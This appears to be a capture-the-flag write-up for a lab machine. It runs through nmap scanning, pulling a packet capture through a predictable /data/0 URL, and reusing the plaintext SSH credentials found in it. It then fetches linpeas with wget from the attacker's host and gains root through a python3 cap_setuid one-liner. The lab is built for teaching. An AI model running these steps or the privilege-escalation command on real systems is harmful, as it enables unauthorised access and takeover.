






Let ip_address=10.10.10.10.
Scan the machine with nmap.
sudo nmap -sS -sV -sC -T4 -v -Pn 10.10.10.10
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 14:55 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 14:55
Completed Parallel DNS resolution of 1 host. at 14:55, 0.02s elapsed
Initiating SYN Stealth Scan at 14:55
Scanning 10.10.10.245 [1000 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Completed SYN Stealth Scan at 14:55, 3.58s elapsed (1000 total ports)
Initiating Service scan at 14:55
Scanning 3 services on 10.10.10.245
Completed Service scan at 14:57, 135.22s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.245.
Initiating NSE at 14:57
Completed NSE at 14:57, 12.21s elapsed
Initiating NSE at 14:57
Completed NSE at 14:57, 1.16s elapsed
Initiating NSE at 14:57
Completed NSE at 14:57, 0.01s elapsed
Nmap scan report for 10.10.10.245
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| 256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_ 256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open http gunicorn
| http-methods:
|_ Supported Methods: GET HEAD OPTIONS
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.0 404 NOT FOUND
| Server: gunicorn
| Date: Fri, 01 Nov 2024 18:55:40 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Content-Length: 232
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
| <title>404 Not Found</title>
| <h1>Not Found</h1>
| <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
| GetRequest:
| HTTP/1.0 200 OK
| Server: gunicorn
| Date: Fri, 01 Nov 2024 18:55:27 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Content-Length: 19386
| <!DOCTYPE html>
| <html class="no-js" lang="en">
| <head>
| <meta charset="utf-8">
| <meta http-equiv="x-ua-compatible" content="ie=edge">
| <title>Security Dashboard</title>
| <meta name="viewport" content="width=device-width, initial-scale=1">
| <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
| <link rel="stylesheet" href="/static/css/bootstrap.min.css">
| <link rel="stylesheet" href="/static/css/font-awesome.min.css">
| <link rel="stylesheet" href="/static/css/themify-icons.css">
| <link rel="stylesheet" href="/static/css/metisMenu.css">
| <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
| <link rel="stylesheet" href="/static/css/slicknav.min.css">
| <!-- amchar
| HTTPOptions:
| HTTP/1.0 200 OK
| Server: gunicorn
| Date: Fri, 01 Nov 2024 18:55:31 GMT
| Connection: close
| Content-Type: text/html; charset=utf-8
| Allow: GET, HEAD, OPTIONS
| Content-Length: 0
| RTSPRequest:
| HTTP/1.1 400 Bad Request
| Connection: close
| Content-Type: text/html
| Content-Length: 196
| <html>
| <head>
| <title>Bad Request</title>
| </head>
| <body>
| <h1><p>Bad Request</p></h1>
| Invalid HTTP Version 'Invalid HTTP Version: 'RTSP/1.0''
| </body>
|_ </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=11/1%Time=67252411%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Fri,\x2001\x20Nov\x202024\x2018:55:27\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Fri,
SF:\x2001\x20Nov\x202024\x2018:55:31\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20'Invalid\x20HTTP\x20Version:\x20'R
SF:TSP/1\.0''\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Fri,\x2001\x20Nov\x202024\x2018:55:40\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
A few interesting things are:
- port 21 ftp server (maybe we can login as anonymous, with no credentials)
- port 80 http server (navigate through the website to find vulnerablities)
- gunicorn, search for exploits depending on the running version
First let’s try to login to ftp.
ftp 10.10.10.10 21
USER anonymous # (try also USER <nothing just press enter>)
PASS <nothing press enter>
No luck, failed to login. Next step is to check this gunicorn server, which is a Python based server.
Let’s head to http://10.10.10.10/.

If we go to “Security Snapshot (5 Second PCAP + Analysis)” page there is download button which seems to download a .pcap. Open wireshark to inspect this file.

This is HTTP traffic from us. So there isn’t anything usefull here. If we inspect the GET request of the browser when clicking the download button, we can see it is http://10.10.10.10/download/4, hence the form is /download/<id>

The id is incremented for every capture. It’s possible that there were packet captures from users before us.
Browsing to /data/0 does indeed reveal a packet capture with multiple packets.

The traffic is not encrypted so we can get the username and password combination easily, nathan:Buck3tH4TF0RM3.
Now let’s try to ssh.
ssh nathan@10.10.10.10
We got a foothold into the system and found the user flag.txt.
So now we need to find a way to get root access. The system has already linpeas.sh script which we can use to do a fast scan for any previlege escalation opening.
Note: If linpeas.sh wasn’t in the attacking system we could transfer it from our Kali with a web server python3 -m http.server 1234 and download it in the attacking system with wget http://<ip_address>:1234/linpeas.sh
One very interesting result from linpeas.sh is at the Capabilities section

/usr/bin/python3.8 has set cap_setuid

So if we execute, we should get root previleges.
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
We just gained ownership of the Cap Mahcine!!